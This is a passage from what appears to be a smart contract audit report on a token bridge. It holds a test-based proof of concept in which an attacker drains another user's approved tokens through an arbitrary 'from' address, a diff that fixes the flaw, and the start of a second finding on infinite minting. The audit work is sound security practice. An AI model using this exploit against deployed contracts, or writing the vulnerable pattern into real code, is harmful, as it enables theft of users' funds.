 **Proof of Concept:** Consider the following test:

```javascript

function testCanMoveApprovedTokensOfOtherUsers() public {
        // Alice - user
        vm.prank(user);     
        token.approve(address(tokenBridge), type(uint256).max);

        // Bob - attacker
        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user,attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assertEq(token.balanceOf(user),0);
        assertEq(token.balanceOf(address(vault)),depositAmount);
        vm.stopPrank();
    }

```


**Recommended Mitigation:** Consider modifying the depositTokensToL2 function so that the caller *cannot* specify a `from` address.

```diff

- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);


-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}

```

---

### [H-2] Infinite mint of tokens by calling `depositTokensToL2` from the Vault contract to the Vault contract : 

**Description:** If a user approves the bridge, another user can steal funds from the vault due to infinite minting of tokens on L2. `depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.
